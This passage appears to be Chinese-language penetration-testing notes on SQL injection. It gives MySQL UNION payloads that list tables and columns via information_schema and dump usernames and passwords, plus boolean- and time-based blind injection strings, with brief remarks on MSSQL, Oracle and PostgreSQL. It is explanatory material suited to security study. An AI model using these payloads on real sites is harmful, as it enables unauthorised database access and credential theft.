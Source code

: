 ~~~sql
select null,null,...,group_concat(table_name) from information_schema.tables where table_schema=database()
或
select null,null,...,table_name from information_schema.tables where table_schema=database() limit 0,1

获取表中的字段
这里假设已经获取到表名为user
select null,null,...,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'

获取各个字段值
这里假设已经获取到表名为user，且字段为username和password
select null,group_concat(username,password) from users
~~~

~~~sql
MySQL < 5.0
没有信息数据库information_schema，所以只能手工枚举爆破（二分法思想）
该方式通常用于盲注
相关函数:
length(str) ：返回字符串str的长度
substr(str, pos, len) ：将str从pos位置开始截取len长度的字符进行返回。注意这里的pos位置是从1开始的，不是数组的0开始
mid(str,pos,len) ：跟上面的一样，截取字符串
ascii(str) ：返回字符串str的最左面字符的ASCII代码值
ord(str) ：将字符或布尔类型转成ascll码
if(a,b,c) ：a为条件，a为true，返回b，否则返回c，如if(1>2,1,0),返回0

基于布尔的盲注
and ascii(substr((select database()),1,1))>64 /判断数据库名的第一个字符的ascii值是否大于64/

基于时间的盲注
id=1 union select if(SUBSTRING(user(),1,4)='root',sleep(4),1),null,null /提取用户名前四个字符做判断，正确就延迟4秒，错误返回1/
~~~



### MSSQL

注入靠比大小



### Oracle

Oracle 的数据类型是强匹配的，所以在 Oracle 进行类似 UNION 查询数据时候必须让对应位置上的数据类型和表中的列的数据类型是一致的，也可以使用 null 代替某些无法快速猜测出数据类型的位置



### PostgreSQL

PostgreSQL 是一款关系型数据库，广泛应用在 Web 编程当中，由于其语法与 MySQL 不尽相同，所以其 SQL 注入又自成一派
